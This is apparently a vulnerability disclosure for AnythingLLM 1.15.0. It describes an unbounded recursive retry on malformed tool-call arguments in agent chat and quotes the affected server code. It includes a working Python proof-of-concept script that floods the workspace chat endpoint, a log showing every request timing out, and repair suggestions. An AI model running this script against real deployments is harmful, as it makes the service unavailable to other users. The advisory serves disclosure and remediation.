

## AnythingLLM has a denial of service vulnerability in the agent chat recursive retry logic

## supplier

https://github.com/Mintplex-Labs/anything-llm

## affected version

AnythingLLM 1.15.0

Docker image:

```text
mintplexlabs/anythingllm:latest
sha256:474da3f19af67cf7b70cded8f01719942c29c8fcbdd7378f94b764918088637d
```

## Vulnerability file

```text
server/endpoints/api/workspace/index.js
server/utils/chats/apiChatHandler.js
server/utils/agents/aibitat/providers/genericOpenAi.js
server/utils/agents/aibitat/providers/helpers/tooled.js
```

## describe

AnythingLLM has a denial of service vulnerability in the agent chat recursive retry logic.

The vulnerable interface is:

```text
POST /api/v1/workspace/:slug/chat
```

When a workspace uses an OpenAI-compatible provider with native tool calling enabled, the agent chat path parses model-supplied `tool_calls[].function.arguments`. If the arguments cannot be parsed as JSON, AnythingLLM appends an error message containing the raw arguments to the message history and recursively calls the provider again.

There is no effective retry limit, recursion depth limit, raw argument size limit, or accumulated message size limit on this path. A malicious or compromised OpenAI-compatible model endpoint can repeatedly return malformed tool-call arguments, causing the server to issue continuous recursive chat-completion requests and accumulate oversized messages. During reproduction, concurrent agent chat requests timed out and the chat interface became unavailable.

## code analysis

The API chat endpoint accepts a workspace chat request and dispatches it to the synchronous chat handler.

```javascript
app.post(
  "/v1/workspace/:slug/chat",
  [validApiKey],
  async (request, response) => {
    const result = await ApiChatHandler.chatSync({
      workspace,
      message,
      mode: resolvedMode,
      sessionId: !!sessionId ? String(sessionId) : null,
      attachments,
      reset,
    });
    return response.status(200).json({ ...result });
  }
);
```

For agent chat with the Generic OpenAI-compatible provider, `complete()` calls `tooledComplete()`. If `tooledComplete()` returns `retryWithError`, the provider recursively calls `complete()` again with the expanded message history.

```javascript
const result = await tooledComplete(
  this.client,
  this.model,
  messages,
  functions,
  this.getCost.bind(this),
  { provider: this }
);

if (result.retryWithError) {
  return this.complete([...messages, result.retryWithError], functions);
}
```

`tooledComplete()` creates `retryWithError` when tool-call arguments cannot be parsed. The raw model-supplied arguments are copied into the retry message.

```javascript
const functionArgs = safeJsonParse(toolCall.function.arguments, null);

if (functionArgs === null) {
  return {
    textResponse: null,
    retryWithError: {
      role: "function",
      name: toolCall.function.name,
      content: `Failed to parse tool call arguments as JSON. Raw arguments: ${toolCall.function.arguments}`,
      originalFunctionCall: {
        id: toolCall.id,
        name: toolCall.function.name,
        arguments: toolCall.function.arguments,
      },
    },
    cost,
    usage,
  };
}
```

Vulnerability point:

```text
Malformed model tool call -> safeJsonParse() fails -> retryWithError is appended -> complete() recursively calls itself without a retry limit.
```

## POC

The target AnythingLLM workspace is configured to use an OpenAI-compatible model endpoint that returns a native tool call with non-JSON `function.arguments`.

The following script sends concurrent agent chat requests to trigger the recursive retry path:

```python
import concurrent.futures
import json
import sys
import urllib.request

target = sys.argv[1].rstrip("/")
workspace = sys.argv[2]
api_key = sys.argv[3]
concurrency = int(sys.argv[4]) if len(sys.argv) > 4 else 16
requests = int(sys.argv[5]) if len(sys.argv) > 5 else 32
timeout = float(sys.argv[6]) if len(sys.argv) > 6 else 12

def call_chat(i):
    data = json.dumps({
        "message": "Use the web-scraping tool to read https://example.com and return the result.",
        "mode": "automatic",
        "sessionId": f"recursive-retry-dos-{i}",
    }).encode()
    req = urllib.request.Request(
        f"{target}/api/v1/workspace/{workspace}/chat",
        data=data,
        method="POST",
        headers={"Content-Type": "application/json", "Authorization": f"Bearer {api_key}"},
    )
    try:
        urllib.request.urlopen(req, timeout=timeout).read()
        return True
    except Exception:
        return False

with concurrent.futures.ThreadPoolExecutor(max_workers=concurrency) as pool:
    print(list(pool.map(call_chat, range(requests))))
```

Full script is provided in `poc_agent_recursive_retry_dos.py`.

Run:

```bash
python3 poc_agent_recursive_retry_dos.py http://target:3001 workspace_slug API_KEY 16 32 12
```

The chat interface became unavailable during the attack:

```text
C:\Users\guopeng\Documents\7\anything-llm-dos-lab\reports\AnythingLLM_Agent_Recursive_Retry_DoS_Report>
python poc_agent_recursive_retry_dos.py http://127.0.0.1:13001 recursive-retry-dos-lab sk-recursive-retry-dos-local 16 32 12
[2026-07-07 17:04:18] attack_start endpoint=/api/v1/workspace/:slug/chat requests=32 concurrency=16 timeout=12.0s
[2026-07-07 17:04:30] ok=False latency=12.017s fail=1 detail=TimeoutError('timed out')
[2026-07-07 17:04:30] ok=False latency=12.106s fail=2 detail=TimeoutError('timed out')
[2026-07-07 17:04:30] ok=False latency=12.105s fail=3 detail=TimeoutError('timed out')
[2026-07-07 17:04:42] ok=False latency=12.019s fail=32 detail=TimeoutError('timed out')
[2026-07-07 17:04:42] RESULT=CHAT_UNAVAILABLE failed=32/32
```

Reproduction screenshot:



## impact

Attackers who can trigger agent chat against a malicious or compromised OpenAI-compatible model endpoint can make the AnythingLLM agent chat interface unavailable. This affects other users on the same deployment because agent chat requests occupy backend execution capacity and repeatedly invoke the LLM connector.

## repair suggestion

1. Add a strict retry limit for malformed native tool-call responses.
2. Reject or truncate oversized `tool_calls[].function.arguments` before appending them to message history.
3. Add a maximum accumulated message size for agent retries.
4. Return an explicit error after malformed tool-call parsing fails instead of recursively calling the provider indefinitely.
5. Add per-workspace and global concurrency limits for agent chat requests.
6. Add timeout and circuit-breaker protection around OpenAI-compatible model connectors.
